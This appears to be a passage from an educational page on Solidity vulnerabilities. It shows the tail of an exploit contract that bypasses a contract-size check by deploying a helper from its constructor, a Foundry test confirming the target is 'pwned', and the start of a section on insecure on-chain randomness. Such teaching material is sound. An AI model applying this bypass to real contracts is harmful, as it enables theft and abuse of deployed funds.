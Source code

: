 ```
    constructor(address _target) {
        target = _target;
    }

    function pwn() external {
        new Zero(target);
    }
}
```
## Test Scenario

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import {Test} from "forge-std/Test.sol";
import {NoContract,NoContractExploit} from "../src/BypassContractSize.sol";

contract NoContractExploitTest is Test {
    NoContract private target;
    NoContractExploit private exploit;

    function setUp() public {
        target = new NoContract();
        exploit = new NoContractExploit(address(target));

        vm.label(address(target), "NoContract");
        vm.label(address(exploit), "NoContractExploit");
    }

    function test_pwn() public {
        exploit.pwn();
        assertTrue(target.pwned());
    }
}

```


## <font color="yellow"> Randomness manipulation <a id="typography"></a></font>

## Description

In Solidity, generating random numbers is a common requirement for applications like lotteries, games, and other forms of decentralized applications (DApps). However, obtaining truly random numbers in a deterministic environment like a blockchain is challenging. Solidity developers often resort to using variables such as blockhash, block.timestamp, or other block-related data to simulate randomness. Unfortunately, these methods are not secure and can be manipulated by malicious actors, leading to significant vulnerabilities.
